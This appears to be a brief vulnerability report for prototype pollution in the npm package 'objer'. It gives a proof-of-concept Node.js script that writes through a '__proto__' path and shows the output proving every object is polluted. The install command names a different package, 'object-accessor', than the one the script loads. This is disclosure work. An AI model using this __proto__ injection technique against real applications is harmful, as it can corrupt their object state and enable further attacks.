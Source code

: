 # Description

Prototype Pollution in objer

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var objer = require("objer")
var obj = {}
console.log("Before : " + {}.polluted);
objer.set(obj,["__proto__","polluted"],"Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i object-accessor # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
